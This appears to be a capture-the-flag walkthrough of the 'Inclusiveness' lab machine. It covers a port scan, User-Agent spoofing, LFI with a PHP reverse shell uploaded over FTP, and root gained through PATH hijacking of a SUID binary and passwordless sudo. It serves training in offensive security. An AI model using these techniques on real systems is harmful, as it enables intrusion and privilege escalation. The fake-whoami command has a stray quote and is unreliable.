 # Inclusiveness

## Port scan
```bash
21/tcp open  ftp     syn-ack ttl 64 vsftpd 3.0.3
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.38 ((Debian))
```

Ftp allows anonymous login

Dirbuster found `robots.txt` on port 80 but it is not allowing me to read view the content.

There is a hint

![[Pasted image 20220528110607.png]]

I was able to bypass the restriction by forcing the User-Agent to be `Googlebot`

![[Pasted image 20220528110720.png]]

Now we can see the content of robots.txt

![[Pasted image 20220528110754.png]]

The `/secret_information/` page has a few links that add a `lang` parameter to the URL.

This parameter is vulnerable to LFI

![[Pasted image 20220528111415.png]]

I am able to upload to the ftp in `/pub/` which has a path of `/var/ftp/pub/` on the linux server.

![[Pasted image 20220528120015.png]]

Now do the same with a reverse php shell.

This gives a shell as www-data

![[Pasted image 20220528120229.png]]

upgrade the shell

```python3
python -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
export TERM=xterm
```


Found an interesting binary with SUID set `/home/tom/rootshell`.

Reviewing the code it looks like I can get root if it thinks I'm tom. I just need to spoof the whois command.

Fake `whois` with path injeciton.

```bash
echo "printf 'tom'"" > /tmp/whoami
```

Add /tmp to the path
```bash
export PATH=/tmp:$PATH
```

execute the SUID binary
```bash
/home/tom/rootshell
```

Now I have a shell as tom.

![[Pasted image 20220528202006.png]]

Tom can sudo everything with no password, so becoming root is as easy as `sudo su`

![[Pasted image 20220528202031.png]]

I am root

![[Pasted image 20220528202103.png]]


